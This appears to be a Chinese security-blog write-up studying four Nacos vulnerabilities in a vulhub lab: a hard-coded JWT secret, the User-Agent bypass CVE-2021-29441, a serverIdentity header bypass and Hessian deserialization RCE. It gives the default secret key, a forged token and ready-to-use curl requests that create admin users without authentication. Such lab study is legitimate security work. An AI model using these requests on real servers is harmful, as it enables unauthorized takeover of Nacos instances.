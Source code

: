 

# nacos相关漏洞学习 - 先知社区

nacos相关漏洞学习

- - -

# 目录

JWT\_Secret\_Key硬编码导致的认证绕过漏洞(**QVD-2023-6271**)  
不当处理User-Agent导致的认证绕过漏洞(**CVE-2021-29441**)  
identity key value 硬编码权限绕过  
Hessian 反序列化 RCE

## 环境搭建

为了方便直接用vulhub  
版本：NACOS v1.4.0

```plain
cd vulhub-master\nacos\CVE-2021-29441 
docker compose up -d
docker compose restart nacos
```

某些情况下nacos服务会启动失败（无法连接数据库导致），可以重启nacos服务或者重启所有服务 访问[http://127.0.0.1:8848/nacos/#/login](http://127.0.0.1:8848/nacos/#/login)

[![](assets/1703209824-2d8a973e407cd505da457773ff138e04.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190451-c330f3ce-9ff0-1.png)

默认账号密码都是nacos

[![](assets/1703209824-49c255f46ed8640299b5674909229ad1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190521-d53a93a4-9ff0-1.png)

## JWT\_Secret\_Key硬编码身份验证绕过

尽管设置了 `NACOS_AUTH_ENABLE=true` 和自定义的 `NACOS_AUTH_TOKEN`，自定义的 token 并未生效，用户仍需使用默认的 `secret.key` 来生成可访问 API 接口的 `access_token`。预期是使用自定义的 `NACOS_AUTH_TOKEN` 来生成并使用 `access_token`，但实际上仍需要依赖默认的 `secret.key`

在application.properties中可以看到  
secret.key的值默认为SecretKey012345678901234567890123456789012345678901234567890123456789  
[![](assets/1703209824-5dbc205406a2b9b90df358f771e2922f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221205010-799c54ce-9fff-1.png)

[![](assets/1703209824-0201955bf5a50d4eb7f31298131a205e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190617-f6eee5cc-9ff0-1.png)

在得到key的值后我们可以任意伪造jwt

[![](assets/1703209824-0c761f4933ce1c3a6db69ff39e710073.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190624-fafdbf94-9ff0-1.png)

`curl -XPOST 'http://ip:8848/nacos/v1/auth/users/?accessToken=eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6IjI2MTYyMzkwMjIifQ.5aXePQdHbh9hKNoj_qqCC4x6PzbXmpy-vYQHhi0PdjVHyDJ40Ge6CVz6AWuV1UHa4H8-A-LXMOqQGSXjrsJ8HQ&username=admin&password=123456'`  
访问接口 创建一个admin用户 密码123456

## 不当处理User-Agent导致的认证绕过漏洞(CVE-2021-29441)

版本: <=Nacos 1.4.1 配置为使用身份验证（-Dnacos.core.auth.enabled=true）  
nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证 可调用敏感接口

list用户接口  
[http://ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1](http://ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1)  
获取当前用户列表以及密码  
直接访问会403

[![](assets/1703209824-6c5b4ac19b3d0a30a823a79e382f4ad8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190634-00b7718c-9ff1-1.png)

将user-agent头修改为Nacos-Server即可绕过

[![](assets/1703209824-051257fdbc4fc6d9f0c9cea723720638.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190640-04a43d66-9ff1-1.png)

添加用户接口：  
POST  
/nacos/v1/auth/users?username=admin&password=123456  
User-Agent: Nacos-Server  
pageNo=1&pageSize=9

[![](assets/1703209824-0e6699861cdef5d29a1d3fc3dc172d5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190648-08f10340-9ff1-1.png)

创建登录成功

## identity key value 硬编码权限绕过

影响版本：Nacos <= 2.2.0 nacos.core.auth.enabled=true  
当请求头携带"serverIdentity:security"时 可绕过权限认证

[![](assets/1703209824-0ee9151d9e43c5b3368b3cba2de7041d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190654-0cec4c34-9ff1-1.png)

[![](assets/1703209824-46808b6c57397104952697ddaa9568ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190704-12fbd482-9ff1-1.png)

[https://github.com/alibaba/nacos/blob/d40190ee24af94fa87414b88239c47693c524333/core/src/main/java/com/alibaba/nacos/core/auth/AuthFilter.java#L65](https://github.com/alibaba/nacos/blob/d40190ee24af94fa87414b88239c47693c524333/core/src/main/java/com/alibaba/nacos/core/auth/AuthFilter.java#L65)

检查`authConfigs`对象中是否设置了`serverIdentityKey`和`serverIdentityValue` 如果这两个配置项都非空，代码会从HTTP请求的头部获取服务器身份信息 再对比header中value的值和配置文件中nacos.core.auth.server.identity.value的值是否相同，如果相同则通过权限校验

利用：  
添加用户接口  
`curl -XPOST 'http://ip:8848/nacos/v1/auth/users?username=admin2&password=123456' -H "serverIdentity: security"`

## Hessian 反序列化 RCE

1.4.0 <= Nacos < 1.4.6 2.0.0 <= Nacos < 2.2.3  
Nacos默认的7848端口是用于Nacos集群间Raft协议的通信，该端口的服务在处理部分Jraft请求时会使用Hessian进行反序列化

[![](assets/1703209824-8da499438e2fe0e18b9f519192034662.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190716-19db83ec-9ff1-1.png)

[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)  
直接用大佬的工具一把嗦
